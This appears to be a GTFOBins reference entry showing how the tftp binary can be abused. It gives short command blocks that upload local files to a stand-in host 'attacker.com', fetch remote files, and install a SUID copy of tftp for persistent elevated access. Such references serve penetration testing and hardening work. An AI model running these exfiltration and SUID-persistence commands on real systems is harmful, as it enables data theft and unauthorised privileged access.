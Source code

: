 # GTFOBin: tftp

## File upload

It can exfiltrate files on the network.

Send local file to a TFTP server.

```
RHOST=attacker.com
tftp $RHOST
put file_to_send
```

## File download

It can download remote files.

Fetch a remote file from a TFTP server.

```
RHOST=attacker.com
tftp $RHOST
get file_to_get
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Send local file to a TFTP server.

```
sudo install -m =xs $(which tftp) .

RHOST=attacker.com
./tftp $RHOST
put file_to_send
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Send local file to a TFTP server.

```
RHOST=attacker.com
sudo tftp $RHOST
put file_to_send
```
